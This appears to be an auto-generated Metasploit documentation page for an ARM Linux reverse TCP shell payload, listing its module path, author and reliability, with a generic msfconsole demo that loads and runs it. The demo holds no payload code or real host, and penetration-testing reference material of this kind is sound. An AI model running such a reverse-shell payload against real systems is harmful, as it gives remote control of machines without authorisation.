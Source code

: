 ## Linux Command Shell, Reverse TCP Inline

Connect back to attacker and spawn a command shell


## Module Name
payload/linux/armle/shell_reverse_tcp

## Authors
civ





## Platforms
linux

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/linux/armle/shell_reverse_tcp
msf payload(shell_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(shell_reverse_tcp) > set TARGET <target-id>
msf payload(shell_reverse_tcp) > show options
   ... show and set options ...
msf payload(shell_reverse_tcp) > run
```
    
    
